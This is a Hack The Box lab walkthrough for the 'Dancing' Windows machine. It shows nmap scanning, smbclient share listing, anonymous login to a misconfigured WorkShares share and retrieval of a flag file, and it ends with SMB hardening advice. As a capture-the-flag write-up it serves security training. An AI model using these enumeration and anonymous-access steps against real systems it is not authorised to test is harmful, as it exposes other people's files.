

# Dancing — HTB Walkthrough

**Status:** Completed  
**Difficulty:** Very Easy  
**OS:** Windows

## TL;DR
Enumerate SMB shares on Windows target, discover misconfigured WorkShares share allowing anonymous access, retrieve flag from user directory via smbclient.

## Target / Access
**Target IP:** `<redacted>`  
> Note: IP addresses have been redacted per HTB publishing guidelines.

---

## Enumeration

### Step 1: Port Scanning with Nmap

**Command:**
```bash
nmap -sC -sV -p- <redacted-ip>
```

**Raw Log:** [nmap-scan.txt](raw-logs/document.pdf) (Page 4)

**Output Excerpt:**
```
PORT    STATE SERVICE VERSION
445/tcp open  microsoft-ds
```

**Analysis:** Port 445 (SMB) is open, indicating Windows file sharing service is active.


### Step 2: SMB Share Enumeration

**Command:**
```bash
smbclient -L //<redacted-ip>
```

**Raw Log:** [smbclient-list.txt](raw-logs/document.pdf) (Page 6)

**Output Excerpt:**
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
WorkShares      Disk
```

**Analysis:** Discovered four shares. WorkShares appears to be a custom share, potentially misconfigured.


---

## Foothold / Initial Access

### Step 3: Testing Anonymous Access to Shares

**Commands:**
```bash
# Test ADMIN$ share
smbclient //<redacted-ip>/ADMIN$ -U ""

# Test C$ share
smbclient //<redacted-ip>/C$ -U ""

# Test WorkShares share
smbclient //<redacted-ip>/WorkShares -U ""
```

**Raw Log:** [share-access-tests.txt](raw-logs/document.pdf) (Page 7)

**Output Excerpt:**
```
# ADMIN$ and C$ return:
NT_STATUS_ACCESS_DENIED

# WorkShares succeeds:
smb: \>
```

**Analysis:** WorkShares share accepts anonymous login (no password required).


### Step 4: Exploring WorkShares Content

**Commands:**
```bash
smb: \> ls
smb: \> cd Amy.J
smb: \Amy.J\> get worknotes.txt
smb: \Amy.J\> cd ../James.P
smb: \James.P\> ls
smb: \James.P\> get flag.txt
smb: \James.P\> exit
```

**Raw Log:** [smb-navigation.txt](raw-logs/document.pdf) (Pages 8-9)

**Output Excerpt:**
```
Amy.J     D     0  Wed Mar 31 09:22:01 2021
James.P   D     0  Thu Mar 25 10:36:12 2021
```

**Analysis:** Two user directories found. flag.txt located in James.P directory.





### Step 5: Flag Capture

**Commands:**
```bash
cat flag.txt
```

**Raw Log:** [flag-capture.txt](raw-logs/document.pdf) (Pages 10-11)

**Output:**
Flag successfully retrieved from James.P's directory.


---

## Summary

This Starting Point machine demonstrates basic SMB enumeration and exploitation of misconfigured share permissions.

### Attack Chain
1. **Port Scanning** — Discovered SMB service on port 445
2. **SMB Enumeration** — Listed available shares
3. **Anonymous Access** — Exploited WorkShares misconfiguration
4. **File Retrieval** — Downloaded flag from user directory

### Tools Used
- Nmap — Port scanning and service detection
- smbclient — SMB share enumeration and file access

---

## Cleanup / Notes / References

### Mitigation Recommendations
1. **Disable Anonymous Access:** Configure SMB shares to require authentication.
2. **Principle of Least Privilege:** Only grant necessary users access to file shares.
3. **Regular Audits:** Review share permissions regularly to detect misconfigurations.
4. **SMB Hardening:** Disable SMBv1, use SMBv3 with encryption, configure proper access controls.

### References
- [SMB Security Best Practices](https://docs.microsoft.com/en-us/windows-server/storage/file-server/smb-security)
- [Smbclient Manual](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
- [OWASP: Improper Access Control](https://owasp.org/www-community/Improper_Access_Control)

---

## Security Summary

**Redactions Performed:**
- IP addresses replaced with `<redacted>` or `<redacted-ip>`
- No credentials were used in this machine (anonymous access)

**⚠️ Warning:** Review and redact any sensitive information (credentials, private IPs, tokens) before publishing.
